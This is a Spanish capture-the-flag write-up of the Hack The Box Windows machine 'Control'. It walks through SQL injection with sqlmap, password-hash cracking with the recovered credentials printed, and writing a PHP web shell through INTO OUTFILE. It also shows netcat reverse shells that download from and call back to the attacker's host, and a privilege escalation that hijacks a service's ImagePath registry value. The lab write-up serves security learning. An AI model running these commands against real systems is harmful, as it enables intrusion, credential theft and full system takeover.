







# Estadísticas

| Característica | Descripción |
|---|---|
| Nombre | [Control](https://www.hackthebox.com/home/machines/profile/218) |
| OS | Windows |
| Dificultad oficial | Hard |
| Dificultad de comunidad |  |
| Puntos | 40 |
| Creadores | [TRX](https://www.hackthebox.com/home/users/profile/31190) |

# Reconocimiento

## Escaneo de host

### Escaneo completo de puertos

```bash
└─$ sudo nmap -sS --min-rate 5000 -vvv -opèn -p- -n -Pn -oG nmap/all_ports_ss $TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Warning: The -o option is deprecated. Please use -oN
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-07 00:44 EDT
Initiating SYN Stealth Scan at 00:44
Scanning 10.10.10.167 [65535 ports]
Discovered open port 3306/tcp on 10.10.10.167
Discovered open port 135/tcp on 10.10.10.167
Discovered open port 80/tcp on 10.10.10.167
Discovered open port 49666/tcp on 10.10.10.167
Discovered open port 49667/tcp on 10.10.10.167
Completed SYN Stealth Scan at 00:45, 26.41s elapsed (65535 total ports)
Nmap scan report for 10.10.10.167
Host is up, received user-set (0.064s latency).
Scanned at 2022-06-07 00:44:41 EDT for 26s
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE REASON
80/tcp    open  http    syn-ack ttl 127
135/tcp   open  msrpc   syn-ack ttl 127
3306/tcp  open  mysql   syn-ack ttl 127
49666/tcp open  unknown syn-ack ttl 127
49667/tcp open  unknown syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.48 seconds
           Raw packets sent: 131084 (5.768MB) | Rcvd: 60 (2.496KB)
```

### Escaneo específico

```bash
└─$ nmap -sCV -p 80,135,3306,49666,49667 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-07 00:45 EDT
Nmap scan report for 10.10.10.167
Host is up (0.064s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Fidelity
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc   Microsoft Windows RPC
3306/tcp  open  mysql?
| fingerprint-strings:
|   NULL:
|_    Host '10.10.14.16' is not allowed to connect to this MariaDB server
49666/tcp open  msrpc   Microsoft Windows RPC
49667/tcp open  msrpc   Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.92%I=7%D=6/7%Time=629ED800%P=x86_64-pc-linux-gnu%r(NUL
SF:L,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.16'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.09 seconds
```

# Enumeración

## Servicios

### http - 80

#### Manual

Visualmente no se identificó nada relevante, dado que en su mayoría los textos contienen `Lorem ipsum` salvo algunas rutas expuestas mediante a la interacción con parte de la interfaz. Visualizando así un error en la ruta `admin.php` después de dar click al botón de Login.


Al navegar al código fuente de la página inicial, se identificaron dos posibles pistas respecto a la construcción del sitio.


1. La exposición de código del sitio `functions.js`.

2. Una posible ruta hacia otro host o algo similar.

Al navegar al script se pueden identificar rutas que pudieran formar parte de un CRUD y que difícilmente puedan ser encontradas en algún diccionario de fuzzing.


Al identificar la composición de la petición e interactuar con `view_products.php` haciendo uso de:

```bash
curl -i http://10.10.10.167/view_product.php -X POST -F "productId=1"
```

Se puede observar una tabla en html permitiendo la suposición de que se desplegarían en este sitio los atributos del producto en cuestión.


Después de varias iteraciones, buscando un identificador válido (26) se puede visualizar que la suposición era la correcta.



#### ffuf

Para complementar lo obtenido se buscaron rutas adicionales por medio de:

```bash
ffuf -c -ic -u http://10.10.10.167/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .txt,.bak,.php,.html
```


# Explotación

## Inyección SQL

### Ejecución

Teniendo en cuenta la tecnología empleada y parte de los parámetros usados, se buscó explotar una inyección SQL haciendo uso de `sqlmap`, utilizando:

```bash
sqlmap -u "http://10.10.10.167/view_product.php" --data="productId=1" --dbs
```

Obteniendo de esta forma payloads válidos y la capacidad de obtener los registros de la base de datos.

- Payload: `productId=1 UNION ALL SELECT <query>-- -`


Después no encontrar información relevante respecto a la aplicación web, se buscó obtener información respecto a los usuarios de la base de datos, mediante:

```bash
sqlmap -u "http://10.10.10.167/view_product.php" --data="productId=1" -D mysql -T user --passwords
```

Obteniendo así sus hashes.


A lo que posteriormente, una vez guardados se hizo uso de `john` para crackearlos.


Adicional a ello, haciendo uso de [CrackStation](https://crackstation.net/) se obtuvo la contraseña de un hash adicional del cuál no se obtuvo con `john`.


Identificando así las credenciales:

```text
manager:l3tm3!n
hector:l33th4x0rhector
```

## RCE

Después de obtener las credenciales y buscar emplearlas con los servicios expuestos en la máquina (mysql únicamente dado que no se cuenta con `smb` o algún otro servicio en donde se pudieran haber usado) [se buscó la forma](https://kayran.io/blog/web-vulnerabilities/sqli-to-rce/) para que mediante la inyección SQL se para pudiera lograr la ejecución remota de código mediante la escritura de un script en php, haciendo uso de instrucciones como `INTO OUTFILE` o `INTO DUMPFILE`.

Para lograrlo fue necesario identificar el directorio en el que se encuentra la instalación, de acuerdo al [enlace encontrado](https://docs.microsoft.com/en-us/previous-versions/office/developer/sharepoint-2010/ms474356(v=office.14)) se indica que por predeterminado la ruta suele ser `c:\inetpub\wwwroot`, permitiendo de esta forma complementar hacia dónde debería dirigirse la escritura del script.

Después de probar con diferentes payloads respecto al escape de las barras (`\`), dado que la respuesta del servidor es identificada como un `500 Internal Server Error`, se realizó una prueba de la escritura mediante:

```bash
curl -i http://10.10.10.167/view_product.php -X POST -F "productId=26 UNION ALL SELECT 'Hello world' INTO OUTFILE 'c:\\\\\\\\inetpub\\\\wwwroot\\\\test.txt'-- -"
```

Logrando escribir satisfactoriamente al archivo indicado.

***En este punto es importante recalcar para futuros escenarios similares que no siempre es verdad que porque la respuesta del servidor sea 500, significa que no se esté ejecutando el payload indicado.***



Visualizandolo en el servidor.


Permitiendo de esta manera cambiar el payload a 

```bash
curl -i http://10.10.10.167/view_product.php -X POST -F 'productId=26 UNION ALL SELECT "<?php system($_GET[\"cmd\"])?>" INTO OUTFILE "c:\\\\\\\\inetpub\\\\wwwroot\\\\srrequiem.php"-- -'
```

Logrando así tener un script listo para ejecutar comandos en la máquina.


Por lo que se estableció una reverse shell haciendo uso del binario `nc.exe`, subiéndolo a la máquina mediante la request:

```text
http://10.10.10.167/srrequiem.php?cmd=powershell.exe%20iwr%20http://10.10.14.16/nc.exe%20-outfile%20c:\windows\temp\nc.exe
```

Montando previamente el servidor web donde se encuentra el binario a descargar. Para ejecutarlo posteriormente con:

```text
http://10.10.10.167/srrequiem.php?cmd=c:\windows\temp\nc.exe%20-e%20powershell.exe%2010.10.14.16%201234
```

Logrando así acceso de una manera más interactiva.


# Post Explotación

## Enumeración

Al buscar atar cabos sueltos respecto a lo indicado en el código fuente del sitio, se pudo visualizar que en el contenido del script de `admin.php` se hace un filtrado de cabeceras indicado por `HTTP_X_FORWARDED_FOR` buscando la IP indicada `192.168.4.28`. A lo que por consiguiente si se añadiera la cabecera `X-Forwarded-For: 192.168.4.28` a las peticiones realizadas se visualizaría el contenido de `admin.php`, logrando así un bypass de la validación.



## Escalación de privilegios

### nt authority\iusr &rarr; hector

Habiendo identificado que existe el usuario `hector` en el sistema operativo por medio del listado de directorios de `c:\users`, se dispuso a buscar la manera de ejecutar comandos mediante las credenciales obtenidas.


Habiendo encontrado [esta](https://lazyadmin.nl/powershell/start-process/) y [esta](https://davidhamann.de/2019/12/08/running-command-different-user-powershell/) referencias, se enviaron las siguientes instrucciones para lograr ejecutar comandos como el usuario `hector`.

Previamente identificando el nombre de la máquina y/o hostname con:

```powershell
# Cualquiera de los siguientes comandos
hostname
$env:COMPUTERNAME
[Environment]::MachineName
```

Según lo indica [este blog](https://adamtheautomator.com/powershell-get-computer-name/) para encontrar ese valor y usarlo posteriormente.


```powershell
$userName = 'fidelity\hector'
$userPassword = 'l33th4x0rhector'
$secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
$credObject = New-Object System.Management.Automation.PSCredential ($userName, $secStringPassword)
Invoke-Command -ComputerName Fidelity -Credential $credObject -ScriptBlock { whoami }
```

Logrando así ejecución como el usuario `hector`.



Dadas las limitaciones que se obtuvieron al ejecutar el mismo binario de `netcat` previamente subido debido a permisos, se decidió ejecutar el mismo binario con la diferencia de ejecutarlo a través de red, exponiendo el binario mediante:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

Y ejecutándolo con:

```powershell
Invoke-Command -ComputerName Fidelity -Credential $credObject -ScriptBlock { \\10.10.14.16\smbFolder\nc.exe -e cmd.exe 10.10.14.16 4321 }
```

Obteniendo así una segunda revershell pero en esta ocasión como el usuario `hector`.


### hector &rarr; nt authority\system

Buscando obtener información relevante para escalar como administrador, se ejecutó [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS), identificando que se cuenta con un gran número de registros a los cuales se tiene acceso completo.


Bajo el conocimiento de escenarios previos, se sabe que es posible modificar la configuración de los servicios para poder secuestrar la ruta del binario, si se lograra identificar un servicio que se estuviera ejecutando como administrador al lograr la modificación e iniciar el servicio se obtendría acceso como administrador. Dichas configuraciones de servicios se suelen encontrar en los valores de los registros mostrados, por lo que, se realizó un filtrado de estos servicios bajo su perfil de ejecución y status para que a la hora de modificarlo se pudiera iniciar el servicio.

```powershell
$services = Get-ItemProperty -Path HKLM:\System\CurrentControlSet\Services\* # Para obtener todos los servicios
$filtered_services = $services | where { ($_.ObjectName -match 'LocalSystem') -And ($_.Start -match '3') } # Para filtar y obtener los servicios que se ejecuten con permisos elevados y que se puedan iniciar manualmente
```

En este punto quedaría filtrar los servicios a los que el usuario hector cuenta con permisos para iniciar cualquier servicio. Para esto se requiere identificar el servicio que cuente con la cadena `RP` según es especificado en [este blog](https://dimitri.janczak.net/2018/06/01/start-stop-service-rights-to-non-administrators/) en la propiedad de `Sddl` de los permisos desplegados de la lista actual de servicios.


Lo que individualmente por servicio es ubicado en la propiedad `Security`, en donde se encuentra en forma binaria.


Trasladandolo a una lectura similar a la propiedad `sddl`, se puede ejecutar `cmd /c sc sdshow wuauserv` para visualizar el valor de mejor manera.


Igualmente, el resultado no es entendible a menos que se busque alguna referencia para comparar, por lo que se puede hacer uso de:

```powershell
ConvertFrom-SDDLString -Sddl "D:(A;;CCLCSWRPLORC;;;AU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SY)"
```

Para visualizarlo de mejor manera ya que se permite su conversión mediante powershell.


Por lo que se iteró en la lista previa de servicios la búsqueda de este permiso mediante el siguiente ciclo:

```powershell
$services_names = $filtered_services.pschildname
foreach ($service in $services_names) {
    $sddl = (cmd /c sc sdshow $service)
    if ($sddl -match "RP[A-Z]*?;;;AU") {
        $service
    }
}

# Iteración en una línea
$canStartServices = foreach ($service in $services_names) {$sddl = (cmd /c sc sdshow $service); if ($sddl -match "RP[A-Z]*?;;;AU") { $service }}
```

Dando como resultado la lista de los servicios buscados.



Obteniendo lo anterior se puede modificar la propiedad `ImagePath` del servicio y ejecutar lo que se desee una vez que el servicio sea iniciado. Se puede lograr este comportamiento tanto como haciendo uso de cmd como de powershell.

#### Usando powershell

Mediante powershell habría que:



1. Asegurar encontrarse en la ruta de los registros:
   
   ```powershell
   cd HKLM:\system\currentcontrolset\services
   ```

2. Obtener las propiedades del servicio requerido:
   
   ```powershell
   get-item -path seclogon
   ```

3. Visualizar el valor a cambiar de `ImagePath`



1. Ejecutar (para modificar los valores con los deseados):
   
   ```powershell
   set-itemproperty seclogon -name imagepath -value "\\10.10.14.16\smbFolder\nc.exe -e cmd.exe 10.10.14.16 443"
   ```

2. Obtener las propiedades del servicio requerido `seclogon` para validar el cambio.
3. Visualizar el cambio realizado a `ImagePath`.

El cual al montar la conexión de escucha, bastaría con iniciar el servicio con:

```powershell
start-service seclogon
```

Para así ejecutar el binario indicado.


#### Usando cmd

Mediante cmd se realizaría el mismo procedimiento con respectivos cambios en los comandos debido que powershell configura alias en algunos comandos, por lo que, se ejecutaría:

1. Para visualizar los valores del servicio:
   
   ```powershell
   reg query HKLM\system\currentcontrolset\services\seclogon
   ```

2. Para cambiar los valores de la propiedad `ImagePath` de acuerdo a lo encontrado en [este blog](https://www.windowscentral.com/how-edit-registry-using-command-prompt-windows-10) para realizar los cambios e identificar el tipo de dato a cambiar `REG_EXPAND_SZ` para efectuarlo correctamente:
   
   ```powershell
   reg add HKLM\system\currentcontrolset\services\seclogon /v ImagePath /t REG_EXPAND_SZ /d "\\10.10.14.16\smbFolder\nc.exe -e cmd.exe 10.10.14.16 443" /f
   ```

3. Para iniciar el servicio:
   
   ```powershell
   sc start seclogon
   ```

# Notas adicionales

Mientras resolvía la máquina encontré diversos problemas para ejecutar el mismo binario de netcat, ya hubiera sido si lo cargaba directamente a la máquina o lo ejecutaba a través del cliente smb, logré solucionarlo empleando otra subida de netcat mediante el usuario obtenido conforme iba realizando la escalación de privilegios.

Dado que durante el proceso de resolución personalmente busco lo equivalente a comparar respuestas en una evaluación por lo que, suelo leer write-ups y ver walkthroughs de otros usuarios principalmente de [0xdf](https://0xdf.gitlab.io/) e [IppSec](https://www.youtube.com/c/ippsec), noté que ambos hicieron referencia a [AppLocker](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/what-is-applocker) ya que el mismo problema se presentó. Después de buscar más información al respecto, encontré que existen rutas en Windows las cuales suelen estar libres de estas restricciones, encontrando varias listas de estas rutas en [repositorios de github](https://github.com/api0cradle/UltimateAppLockerByPassList) dándole motivo al uso de la ruta `C:\Windows\System32\spool\drivers\color` que se emplea en los write-ups.

# Referencias

- [SQL Injection](https://teckk2.github.io/web-pentesting/2018/02/07/SQL-Injection-(Login-Form-User).html).
- [CrackStation](https://crackstation.net/).
- [SQLI to RCE](https://kayran.io/blog/web-vulnerabilities/sqli-to-rce/).
- [How to: Find the Web Application Root](https://docs.microsoft.com/en-us/previous-versions/office/developer/sharepoint-2010/ms474356(v=office.14)).
- [How to use Start Process in PowerShell](https://lazyadmin.nl/powershell/start-process/).
- [Running commands in a specific user context in PowerShell](https://davidhamann.de/2019/12/08/running-command-different-user-powershell/).
- [StackOverflow - PowerShell Jobs vs Start-Process](https://stackoverflow.com/questions/60248354/powershell-jobs-vs-start-process).
- [Powershell get computer name](https://adamtheautomator.com/powershell-get-computer-name/).
- [How to edit the Registry using Command Prompt on Windows 10](https://www.windowscentral.com/how-edit-registry-using-command-prompt-windows-10).
- [Significado del valor Start en registros](https://www.itprotoday.com/compute-engines/what-are-errorcontrol-start-and-type-values-under-services-subkeys).
-  [Start Stop service rights to non administrators](https://dimitri.janczak.net/2018/06/01/start-stop-service-rights-to-non-administrators/).
-  [What is AppLocker?](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/what-is-applocker).
-  [Ultimate AppLocker ByPass List](https://github.com/api0cradle/UltimateAppLockerByPassList).